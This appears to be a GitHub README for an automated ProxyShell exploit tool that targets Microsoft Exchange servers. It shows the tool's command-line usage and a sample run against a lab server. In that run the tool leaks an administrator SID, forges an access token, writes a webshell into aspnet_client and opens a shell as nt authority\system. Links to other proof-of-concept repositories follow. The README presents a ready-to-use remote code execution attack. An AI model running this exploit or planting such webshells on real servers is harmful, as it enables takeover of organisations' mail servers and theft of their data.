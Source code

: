 # proxyshell-auto
```
usage: proxyshell.py [-h] -t T

Automatic Exploit ProxyShell

optional arguments:
  -h, --help  show this help message and exit
  -t T        Exchange URL
  
Usage: 
C:\>python3 proxyshell.py -t exchange.lab.local
fqdn exchange.lab.local
+ admin@exchange.lab.local
legacyDN /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=admin
leak_sid S-1-5-21-3626636094-1513906978-1376853856-1156
token VgEAVAdXaW5kb3dzQwBBCEtlcmJlcm9zTBphZG1pbkB3b2huYmF1LXJhZGViZXJnLmNvbVUuUy0xL[snip]AAAA==
set_ews Success with subject badqxybxtecxuttq
write webshell at aspnet_client/tjmzk.aspx
<Response [404]>
<Response [404]>
nt authority\system
SHELL>
```
# Reference:
- https://github.com/dmaasland/proxyshell-poc
- https://github.com/ktecv2000/ProxyShell
- https://y4y.space/2021/08/12/my-steps-of-reproducing-proxyshell/
